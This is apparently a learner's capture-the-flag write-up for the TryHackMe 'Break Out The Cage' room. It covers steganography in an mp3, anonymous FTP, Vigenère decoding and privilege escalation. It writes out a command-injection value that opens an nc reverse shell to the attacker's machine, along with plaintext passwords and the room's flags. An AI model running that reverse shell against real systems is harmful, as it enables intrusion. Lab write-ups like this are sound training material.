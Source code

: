 ### Break Out The Cage ###

export IP=10.10.52.79
found a directory auditions and in that found a mp3 file
opened the file in audacity:
click on the file name: select spectrogram and zoom in by clicking the search+ icon :

found a key: namelesstwo

ftped into the machine with anonymous login and no password (which was something i should have knew)

found a dad_talks file with a hash of base64(also should have known) and after that vignere cipher(which i have nvr heard) which requires a key and i found a key:above

found the msg:
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes

# found the weston's :Mydadisghostrideraintthatcoolnocausehesonfirejokes

found a python script which executes a .quotes file and tried editing it this way:
os.system("wall " + \n + "usermod weston -G root")

didnt work so tried this(not mine):

echo "lol;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc myip 9001 >/tmp/f" > .quotes 

got a rev shell

got the user flag:
THM{M37AL_0R_P3N_T35T1NG}

there was aa email_backup folder and i missed it just hate myself right nw im just dependent on the writeups and i dont want to hopefully i will inprove in the future....

forund a cipher text in the third email:haiinspsyanileph and used face as the key with vignere cipher:
found the root password:cageisnotalegend

and thus found the root flag

THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}